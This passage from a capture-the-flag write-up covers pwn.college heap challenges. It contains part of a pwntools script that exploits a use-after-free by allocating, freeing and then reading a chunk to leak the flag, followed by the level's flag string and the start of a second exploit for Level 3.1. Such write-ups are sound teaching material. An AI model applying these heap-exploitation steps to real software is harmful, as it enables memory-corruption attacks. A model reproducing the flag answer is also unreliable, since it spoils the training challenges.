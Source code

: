 ```python


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    malloc(0, 773)
    malloc(1, 773)
    free(0)
    free(1)
    read_flag()
    puts(0)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{wvvL-j9QzjeoJrOsQS4Vval7exq.0VN3MDL5cTNxgzW}`]

# Level 3.1

## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag when multiple allocations occur.

## Write-up

参见 [Level 3.0](#level-30)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    log,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level3.1"
HOST, PORT = "localhost", 1337

```